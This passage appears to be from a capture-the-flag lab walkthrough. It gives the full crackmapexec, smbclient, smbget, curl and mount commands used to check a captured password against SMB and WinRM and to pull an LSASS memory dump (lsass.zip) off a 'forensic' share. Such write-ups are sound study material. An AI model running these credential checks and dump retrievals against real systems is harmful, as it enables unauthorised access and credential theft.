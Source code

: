 
check password, correct creds but no winrm

```bash
## check pwd, no winrm
crackmapexec smb $tip -u audit2020 -p 'Hack01@123' --shares
crackmapexec winrm $tip -u audit2020 -p 'Hack01@123'
```



## smb forensic

Check smb share, forensic. Read access for user audit2020

```bash
smbclient //$tip/forensic -U audit2020%Hack01@123
```

download error, `## get error, parallel_read returned NT_STATUS_IO_TIMEOUT`



smbget, error too.

```bash
## smbget, Can't read 64000 bytes at offset 512000, file smb://10.129.148.187/forensic/memory_analysis/lsass.zi
smbget  smb://$tip/forensic/memory_analysis/lsass.zip -U audit2020%Hack01@123
```



curl failed too.

```bash
curl --user "audit2020:Hack01@123" smb://$tip/forensic/memory_analysis/lsass.zip -o ./lsass.zip

```

![image-20221211174548056](./images/image-20221211174548056.png)



mount and copy, work but takes long.

```bash
## mount and cp
sudo mount -t cifs -o username="audit2020",password="Hack01@123" //$tip/forensic /mnt
cp /mnt/memory_analysis/lsass.zip ./
unzip lsass.zip -d ./smbfile/lsass/
```

